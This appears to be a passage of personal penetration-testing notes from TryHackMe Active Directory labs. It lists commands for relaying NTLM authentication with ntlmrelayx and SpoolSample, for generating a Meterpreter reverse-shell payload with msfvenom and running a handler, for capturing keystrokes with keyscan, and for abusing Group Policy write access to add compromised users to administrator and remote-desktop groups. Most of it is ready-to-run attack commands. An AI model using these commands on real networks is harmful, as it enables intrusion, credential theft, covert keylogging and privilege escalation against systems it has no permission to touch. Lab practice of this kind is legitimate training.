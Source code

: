 To exploit:
##### Important: this attack is unstable and might crash the spooler server, requiring a machine reboot 
```
ntlmrelayx.py -smb2support -t smb://TARGET_IP -debug        // Attacker-side, make sure to actually enter the IP and not the hostname
SpoolSample.exe THMSERVER2.za.tryhackme.loc ATTACKER_IP
```

#### Meterpreter keylogging
Requirements: a working reverse shell
to create:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP_ADDRESS LPORT=PORT -f psh -o shell.ps1
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST IP_ADDRESS; set LPORT PORT; exploit"
```
To switch to the target user:
```
ps   // on meterpreter
```
Look for the target user, and use `migrate` to the PID.
Keylogging and dumping:
```
keyscan_start
keyscan_dump
```

#### Exploiting GPOs
A GPO is a ruleset for affected users on an AD network.
For some general exploitation, check [[Active Directory hardening#GPOs (Group Policy Objects)]], see if any of these are enforced and set them to a more vulnerable state.
##### Adding a group to Remote management and administration
First, check in Bloodhound if you have write access (e.g.:`GenericWrite`) to the system. (The Bloodhound symbol is three purple dots with three purple lines besides the dots)
Then, spawn a `cmd` shell as that user from a compromised host:
```
runas /netonly /user:DOMAIN_NAME\AD_USERNAME cmd.exe
```
To make sure to have write access, use:
```
dir \\DOMAIN_NAME\sysvol
```
If the credentials are incorrect, retry the `runas` command.

Then, spawn the Microsoft Management Console:
```
mmc
```
And add the Group Policy snap-in:
1. Click **File** -> **Add/Remove Snap-in**
2. Select the **Group Policy Management** (If there are multiple, use the top Group Policy Management) snap-in and click **Add** 
3. Click **Ok**
If this does not work, make sure the previous steps work.
Then, add a group of your already-compromised users to the restricted groups to configure special access:
1. Expand **Computer Configuration**
2. Expand **Policies**
3. Expand **Windows Settings**
4. Expand **Security Settings**
5. Right Click on **Restricted Groups** and select **Add Group**
6. Click **Browse,** enter **TARGET_GROUP** and click **Check Names**
7. Click **Okay** twice
Then, add the `Administrator`, and the `Remote Desktop Users` to the bottom filter.